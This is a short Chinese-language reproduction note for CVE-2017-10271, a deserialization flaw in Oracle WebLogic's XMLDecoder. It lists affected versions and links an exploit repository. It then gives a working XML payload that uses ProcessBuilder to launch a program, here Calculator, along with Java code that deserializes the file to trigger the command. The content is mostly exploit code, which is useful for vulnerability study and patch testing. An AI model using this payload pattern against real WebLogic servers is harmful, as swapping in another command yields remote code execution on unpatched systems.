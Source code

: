 # CVE-2017-10271 Weblogic XMLDecoder 反序列化漏洞

### 一、漏洞简介

### 二、漏洞影响

Oracle WebLogic Server10.3.6.0.0

Oracle WebLogic Server12.1.3.0.0

Oracle WebLogic Server12.2.1.1.0

Oracle WebLogic Server12.2.1.3.0

### 三、复现过程

exp

https://github.com/ianxtianxt/-CVE-2017-10271-

poc

xml 文件


```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_131" class="java.beans.XMLDecoder">
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0">
                <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
            </void>
        </array>
        <void method="start" />
    </object>
</java>
```

读取xml文件，进行反序列化执行命令代码：


```java
import java.io.BufferedInputStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;

public class xmlrce {

    public static void main(String[] args) {
        // TODO Auto-generated method stub
        java.io.File file = new java.io.File("/Users/pirogue/IdeaProjects/weblogic/src/poc.xml");

        java.beans.XMLDecoder xd = null;
        try {
            xd = new java.beans.XMLDecoder(new BufferedInputStream(new FileInputStream(file)));
        } catch (FileNotFoundException e) {
            // TODO Auto-generated catch block
            e.printStackTrace();
        }

        Object s2 = xd.readObject();
        xd.close();
    }

}
```
